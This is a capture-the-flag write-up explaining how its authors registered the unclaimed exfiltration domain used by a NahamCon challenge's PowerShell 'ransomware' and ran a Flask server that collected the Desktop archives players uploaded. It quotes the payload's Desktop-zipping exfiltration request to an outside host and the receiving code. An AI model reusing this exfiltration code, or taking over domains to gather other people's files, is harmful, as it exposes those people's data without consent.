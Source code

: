 # How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](../IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

At the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```

---

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containg every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
![](claimed.png)

_A dutch website checking to check if the domain is available for sale._

## What now?

---

After we claiming the domain, we went ahead and setted up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python webserver would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

After the Nahamcon CTF ended, we went ahead and checked how many files we received:
![](results.png)

We reived a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are not from this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files are ending in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment, but in the VM supplied by the Nahamcon CTF.

We'd also like to note that we didn't receive anything that could be identified back to a specific users, nor did we receive any sensitive files. Next to that, we'll destroy all the files and logs we've received.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organisers, on not on their own machine.

We absolutely loved the process we went through by making this.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch
